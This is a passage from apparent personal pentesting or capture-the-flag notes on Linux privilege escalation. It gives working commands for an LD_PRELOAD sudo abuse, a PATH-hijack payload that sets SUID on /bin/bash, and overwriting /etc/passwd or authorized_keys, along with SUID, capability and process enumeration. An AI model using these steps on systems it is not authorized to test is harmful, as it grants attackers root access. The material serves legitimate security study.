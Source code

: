 ```bash
# Compile
gcc -fPIC -shared -o /tmp/x.so c.c -nostartfiles

# Become root
sudo LD_PRELOAD=/tmp/x.so apache2
```

Python abuse:
- Modify original file
- Create library file that is being imported
- [[Walla]]

Check what the binary that is being ran does, if it allows you to overwrite existing files:
- Overwrite /etc/passwd
- Overwrite root's authorized keys file
- [[Flow]] && [[RussianDolls]]


### SUID binaries

Enumeration:
- [gtfobins](https://gtfobins.github.io/)
```bash
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

Invoked binary calls program without specifying the full path:
```bash
# Modify PATH variable
export PATH=/tmp:$PATH

# Create malicious payload
echo "chmod u+s /bin/bash" > /tmp/<binary-name>

# Run the program
./<binary-name>
```


### Capabilities

Enumeration:
- [gtfobins](https://gtfobins.github.io/)
```bash
getcap -r / 2>/dev/null
```


### Running processes and services

Enumeration:
```bash
ps aux
ps aux | grep root
ps -ef

netstat -ano
netstat -tulpn

./pspy -i 5
```
>[!info]
>Running as root? Vulnerable version? Port forward?
